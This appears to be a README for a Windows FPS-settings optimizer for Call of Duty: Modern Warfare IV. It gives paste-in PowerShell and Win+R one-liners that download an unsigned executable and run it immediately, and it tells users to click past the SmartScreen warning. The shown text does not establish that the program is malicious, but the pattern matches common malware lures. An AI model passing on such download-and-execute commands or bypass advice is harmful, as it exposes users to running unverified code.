

# Pandora's Box Optimizer

One-click FPS profiles for **Call of Duty: Modern Warfare IV**, with a real system scan.



## Download & run

No install needed — it's a self-contained Windows app. Grab the latest `.exe` from
[Releases](https://github.com/nullxiv/pandoras-box-optimizer/releases/latest), or run one line.

**In PowerShell / Windows Terminal** (paste directly):

```powershell
$o="$env:TEMP\PandorasBoxOptimizer.exe"; irm 'https://github.com/nullxiv/pandoras-box-optimizer/releases/latest/download/PandorasBoxOptimizer.exe' -OutFile $o; Start-Process $o
```

**In the Run box (Win+R) or Command Prompt** (note the `\"` escaping):

```bat
powershell -NoProfile -Command "$o=\"$env:TEMP\PandorasBoxOptimizer.exe\"; irm 'https://github.com/nullxiv/pandoras-box-optimizer/releases/latest/download/PandorasBoxOptimizer.exe' -OutFile $o; Start-Process $o"
```

Because it isn't code-signed, Windows SmartScreen shows **"Windows protected your PC"** →
click **More info → Run anyway**.

## What it does

- **Scans your PC** (GPU / CPU / RAM / display) and recommends the profile that fits it.
- **Max FPS** — every setting floored for the highest possible frame rate.
- **Balanced** — sharp image (DLSS Balanced, bullet impacts on), still well above most refresh rates.
- Patches **only** the performance settings — your resolution, monitor, audio and keybinds are left untouched.
- **Backs up** your current config before every change, with a one-click **Restore**.

## Safety

- Edits only `%LOCALAPPDATA%\Activision\Call of Duty\Players\s.1.0.cod26.txt*`, after backing it up.
- Verify a download: its SHA-256 should match the value in each release's notes.
- Build it yourself (needs the **.NET 10 SDK**):
  ```powershell
  cd PandorasBoxOptimizer
  dotnet publish -c Release
  ```

## Note

Launch Modern Warfare IV once (reach the main menu, then quit) so the game creates its settings
files — then run this tool.
